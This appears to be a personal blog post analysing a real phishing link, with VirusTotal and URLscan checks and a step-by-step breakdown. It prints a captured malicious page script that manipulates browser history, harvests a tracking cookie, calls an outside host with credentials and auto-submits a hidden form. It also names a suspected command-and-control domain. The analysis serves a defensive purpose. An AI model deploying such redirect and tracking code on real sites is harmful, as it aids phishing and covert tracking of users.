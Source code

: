 ```yaml
---
layout: post
title: A real case study relates to forensic
description: Analyse a phishing case
tags: [Real Case, Forensic, Virustotal, Command and Control, JavaScript, Blue Team]
---
```

This is a new kind of post in my blog, it concentrates on real case about forensic and how I investigate it. I'm sure that it can help you know more about attacking techniques and ways to detect it. OK let's start!
First of all, a man sent me a link that's the main reason for this post:<br>
![]({{site.url}}/assets/images/casestudy/2.png)<br>

With my experience, the first thing I had to do when I met a link is... upload it to Virustotal which is a tool to check if a link or a file is malicious or not:<br>
![]({{site.url}}/assets/images/casestudy/3.png)<br>
You can see easily that it still had 2/91 scores, so it's not good at all. Continously, I check deeper by using URLscan because from here I can see all requests from this link: what file it used, how many requests occured?...:<br>
![]({{site.url}}/assets/images/casestudy/1.png)<br>

Now you can see all files that the link interacted, and now my mission is get all files to my local machine and then continute to analyse:<br>
![]({{site.url}}/assets/images/casestudy/4.png)<br>
(You can see in the picture there are 2 files PHP and one picture file, but actually when I analysed it, it had the same content, so I just show you one of the 3 files here):<br>
```
<html>
<head>
<meta charset="utf-8" />
</head>
<body>

    <script type="text/javascript">
            (function (d, w, h) {
                            var reverseUrl = '//' + location.host + '/bmwk9syrqd?key=a969ca5c9ad2611762f11b79a526e2d2&submetric=17641579';
                            h.pushState(null, document.title, reverseUrl);
                h.pushState(null, document.title, reverseUrl);
            })(document, window, history);
    </script>


<form action="/api/users" method="get" id="submit-form">
            <input type="hidden" name="token" value="L2Jtd2s5c3lycWQ_a2V5PTI3NjAxZjA1YjJmM2E2MmQ4ZjAzNzlmZjU0YWU2Y2I0JnBzdD0xNzAzMDY4MDk4JnJtdGM9dCZzaHU9MzZjM2JjMTdkMzc2Nzg1N2QwMmNkYjY1Y2ZhNWYyNGNkNjdlM2RiNDYxMDhiOTU1YmEyYzQwNzZiYjIwNWM1ZWUzZGY0NmExNmUzYzZmOTI1MDJiMDVjNmUzM2QyOGE5N2UwZDA0MWY1YmE3MDExY2Q3NTQ2MWRiM2MxOWFmMjk0M2UxZGE2MjFhMGI1YzBjYjc5ZDk2MTc1ZGVkMDNjZjAyNmZmNg=="/>
            <input type="hidden" name="uuid" value=""/>
            <input type="hidden" name="pii" value=""/>
            <input type="hidden" name="in" value=""/></form>
<script type="text/javascript">
             try{
            if (window.opener !=null){
              if (window.opener.opener !=null){
                window.opener.opener = null;
              }
              window.opener = null;
            }
            if (parent.window.opener != null){
              parent.window.opener = null;
            }
          }
          catch(_e){}
            function now() {
                try {
                    return Date.now();
                } catch (ex) {
                    return (new Date()).getTime();
                }
            }
                        function set(name, value) {document.forms[0]["" + name].value = value;}
            
            function submit(incognito) {
                set("in", incognito);
                
                document.forms[0].submit();
            }

            function redirect() { submit("false"); }

            var date = new Date(now() + 15 * 1000),
                cookies = document.cookie,
                start = cookies.indexOf("uid_id2="),
                isPopunder = true;

            document.cookie = "cjs=t; path=/; expires=" + date.toUTCString();
            isPopunder && window !== top && set("pii", "true");

            if (start === 0 || (start > 0 && (cookies.charAt(start - 1) === ';' || cookies.charAt(start - 1) === ' '))) {
                var finish = cookies.indexOf(';', start);
                set("uuid", cookies.substring(start + 8, finish === -1 ? void 0 : finish));
                redirect();
            } else {
                try {
                    var request = new XMLHttpRequest(),
                        timeout = setTimeout(function() {request.abort();}, 50);
                    request.withCredentials = true;
                    request.open("GET", "https://proftrafficcounter.com/stats");

                    request.onload = function() {
                        clearTimeout(timeout);
                        set("uuid", request.responseText);
                        redirect();
                    };
                    request.onerror = request.onabort = redirect;
                    request.send();
                } catch (error) {
                    redirect();
                }
            }</script>
</body></html>
``` 
This is the source code of PHP file, but you can see inside it it's JavaScript, which is very suspicious, and let's analyse step by step:

1. History Manipulation:
- The JavaScript uses the **history.pushState()** method to modify the browser history. It pushes a new state with a URL constructed from the current host and specific query parameters.
2. Form Submission:
- There's an HTML form (**'<form>'**) with hidden input fields. These fields seem to hold sesitive information such as a token, UUID, and PII (Personally Identifiable Information). The form appears to submit data to an endpoint **'/api/users'** via the GET method.
3. Window Handling:
- The code tries to manipulate the window and opener properties, attempting to nullify them. This might be an attempt to prevent certain actions from being performed or to restrict the ability to track the source windows.
4. Cookie Manipulation:
- It creates a new cookie  named "cjs" with a value of "t" and an expiration time st to 15 seconds from the current time.
5. Conditional Logic:
- Check if the cookie "uid_id2" exists and extracts its value to set the "uuid" field in the form. If successful, it triggers a redirection (**'redirect()'** function). If not, it tries to send a GET request to "https://proftrafficcounter.com/stats" to gather the UUID.
6. XHR Requests:
- It attempts to make an XMLHttpRequest to a remote server to retrieve data. On a successful response, it extracts information and triggers a redirection.
7. Error Handling:
- There are try-catch blocks that handle errors without throwing them explicitly.
8. Functions:
- There are serveral helper functions defined within the script toset values in the form and trigger form submission.

Moreover, let's return to previous image and you notice that when I downloaded files, the first domain wasn't the source of file, instead it's **ringerbaseballsilk.com**. Check it with Virustotal and I saw that it's the C2 server of some Android malwares:<br>
![]({{site.url}}/assets/images/casestudy/5.png)<br>

Conclusion, after analysing, I can be sure that this is the phishing link and I hope everyone will announce to all people around you to help them prevent from it. Thank you very much for reading my blog, if you have any questions about my post, please contact me through Facebook which I attached in home page. Have a good day, peace!
